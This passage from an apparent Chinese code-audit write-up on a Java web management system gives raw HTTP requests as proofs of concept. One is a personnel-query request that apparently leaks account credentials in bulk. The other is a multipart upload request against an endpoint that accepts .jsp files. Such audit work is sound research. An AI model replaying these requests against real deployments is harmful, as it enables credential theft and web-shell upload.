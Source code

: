 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWFEicMiaxw7ouw4YrB5ONCe1OFjicibwabaxeeYjFS6pXIxG9Ka9T7HgnpQ/640?wx_fmt=png&from=appmsg "")  
  
‍  
  
‍  
  
‍  
# 4、信息泄露(账号密码)  
  
主要观察控制层的User  
、Personnel  
等关键字  
  
比如PersonnelController  
，查询到的接口queryPersonnelInfo  
、queryPersonnel  
、getPersonnelById  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWptQfwsNa7ibLCS86Pz6V8uGricXiacboTHuIfSmM1KvvolibF33t0XxA9w/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWEuUjoiafmA9LnFeGORQs40ibMtx6TVnfAsxvna5aPWskcBeibsT3yiaXvw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWSfO0Jmty3s7UlbYDRu4OT46L5us4b9UHTNWIdibuExichhrzBQGicWN0Q/640?wx_fmt=jpeg&from=appmsg "")  
```
GET /manage/personnel/queryPersonnel.do?page=1&pagesize=1000&recoToken=ZuZBOrvLG8M HTTP/1.1Host: xUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateAccept: */*Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWpOj6IUqHTLic4VSQMTV61JDt1Vr7gIPMVrVc7hxI2yxvcibgsicGO07Jw/640?wx_fmt=png&from=appmsg "")  
  
‍  
  
‍  
# 5、文件上传  
  
这里上传很多，就拿一个举例全局搜索upload  
，定位到  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWP5cMpiaz3qgAm9ic1VclO0N6icAvhZvoXjStn70tZMG6zDvHiaQH6bnnDA/640?wx_fmt=jpeg&from=appmsg "")  
  
‍  
  
就检测一个地方，是不是文件上传的类型，之后用copy  
函数，复制内容和文件名。这里拿txt做样式，jsp后缀可上传。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/90EWr4bdmEkF6u6VKTueovIFZUAGGHGWo594jjojQUNFRRzXHyGe4bnKQfKfib0as424Oho7CicofxBZFMkTRnBA/640?wx_fmt=jpeg&from=appmsg "")  
```
POST /manage/dgmCommand/resourceUploadFile.do?recoToken=ZuZBOrvLG8M HTTP/1.1Host: xUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELjAccept: */*Connection: close------WebKitFormBoundaryFfJZ4PlAZBixjELjContent-Disposition: form-data; name="3"; filename="1.txt"Content-Type: image/jpeg1------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```  
  
